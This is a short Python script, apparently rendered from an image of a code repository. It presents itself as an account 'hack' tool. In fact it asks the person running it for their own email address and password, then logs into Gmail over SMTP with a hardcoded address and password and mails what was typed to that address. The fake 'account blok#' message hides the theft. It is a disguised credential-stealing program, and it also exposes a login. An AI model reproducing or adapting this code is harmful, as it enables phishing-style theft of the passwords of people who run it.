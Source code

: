 import smtplib
import time

print('Alrgabe Hack')
    


frome = 'dkild996@gmail.com'

pas = '0919959525'

to = 'dkild996@gmail.com'



msg = input('\n\n===>Enter you Email : ')+ input('\n\n===>Enter password Email : ')

input('\n===>Enter url account : ')

    


try:
    ser = smtplib.SMTP_SSL('smtp.gmail.com')

    ser.login(frome , pas)
    
    ser.sendmail(frome , to , msg )
    
    ser.quit()
    
    print('plise withe...')
    time.sleep(5)
    print('account blok#')
except:
    print('error')





